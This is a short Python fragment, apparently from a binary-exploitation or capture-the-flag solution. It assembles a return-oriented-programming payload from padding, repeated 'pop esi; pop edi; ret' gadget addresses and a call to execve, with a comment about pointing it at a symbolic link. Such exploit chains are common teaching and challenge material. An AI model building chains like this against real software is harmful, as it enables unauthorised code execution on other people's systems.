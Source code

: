 ```python
payload += "B" * 4
payload += "C" * 4
payload += p(0x55584a5b)  #: pop esi; pop edi; ret;
payload += "B" * 4
payload += "C" * 4
payload += p(0x55584a5b)  #: pop esi; pop edi; ret;
payload += "B" * 4
payload += "C" * 4

payload += p(base+call_execve)

payload += p(0x55616353) # address of string "h\x00\x00\x00" you could create a symbolic link ...

print(payload)
```
